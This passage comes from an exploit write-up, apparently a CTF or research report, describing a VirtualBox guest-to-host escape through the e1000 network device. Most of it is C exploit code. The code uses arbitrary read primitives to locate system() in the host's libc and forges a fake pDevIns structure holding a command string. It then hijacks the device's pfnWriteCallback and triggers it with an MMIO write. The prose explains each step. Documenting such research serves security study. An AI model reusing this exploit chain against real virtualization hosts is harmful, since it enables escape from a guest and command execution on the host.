 ```c
    if (type == 5) { // STRTAB
        libc_strtab = vaddr;
    } 
    if (type == 6) { // SYMTAB
        libc_symtab = vaddr;
    } 
    cur_addr += 0x10;
}
// scan for system
size_t system = 0;
char cur_str[256] = {};
cur_addr = libc_symtab + 0x18;
while(true) {
    memset(cur_str, 0, sizeof(cur_str));
    size_t st_name = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr) & 0xffffffff;
    size_t offset = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr + 0x8);
    arb_readString_user(inst, code, paRing0, inst2, r0pDevIns, libc_strtab + st_name, cur_str);
    if(!strcmp(cur_str, "system")) {
        system = libc_base + offset;
        break;
    }
    cur_addr += 0x18;
}
printk(KERN_INFO "vboxdd_base: %px\n", vboxdd_base);
printk(KERN_INFO "libc_base: %px\n", libc_base);
printk(KERN_INFO "libc_dynamic: %px\n", libc_dynamic);
printk(KERN_INFO "libc_strtab: %px\n", libc_strtab);
printk(KERN_INFO "libc_symtab: %px\n", libc_symtab);
printk(KERN_INFO "system: %px\n", system);
```

After we got `system()`'s address, the rest is similar to the one we did in the `core_pattern` trick : we overwrite the `pfnWriteCallback` of e1000's ring-3 MMIO entry, and trigger the callback by writing the `E1000_EECD` register. But again, what about the argument ?

It turned out that the first argument -- `pDevIns`, only has to be "partial valid". All we need to do is set a valid `pCritSectRoR3` member, and the rest can be whatever we want. So, we first leak the `pCritSectRoR3` member with kernel & user space arbitrary read, then pick a buffer and forge a fake `pDevIns`. We put `pCritSectRoR3` at offset `0x28`, and write the command string at offset `0`. 


```c
// leak ring 3 DeviceE1000->pDevIns->pCritSectRoR3
size_t r3pDevIns = arb_read(inst, code, (sll)(r0Map + 0x178)); // ring 3 DeviceE1000->pDevIns
size_t pCritSectRoR3 = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, r3pDevIns + 0x28);
printk(KERN_INFO "pCritSectRoR3: %px\n", pCritSectRoR3);

// Pick a buffer to forge pDevIns
size_t fake_pDevIns = r0Map + 0x1c0;
size_t fake_pDevIns_r3 = r3Map + 0x1c0;
write_string(inst, code, (sll)(fake_pDevIns), "touch /tmp/456"); // fake_pDevIns points to cmd
arb_write(inst, code, (sll)(fake_pDevIns + 0x28), pCritSectRoR3); // fake_pDevIns->pCritSectRoR3

arb_write(inst, code, (sll)(r0Map + 0x178), fake_pDevIns_r3); // ring 3 DeviceE1000->pDevIns = our fake pDevIns
arb_write(inst, code, (sll)(r0Map + 0x180), system); // ring 3 DeviceE1000->pfnWriteCallback = system

// this is a R3 MMIO write ( return VINF_IOM_R3_MMIO_WRITE; in e1kRegWriteEECD when Ring0)
int* inst3 = ioremap(E1000_MMIO_BASE,0x1000);
inst3[0x10/4]=0;
```
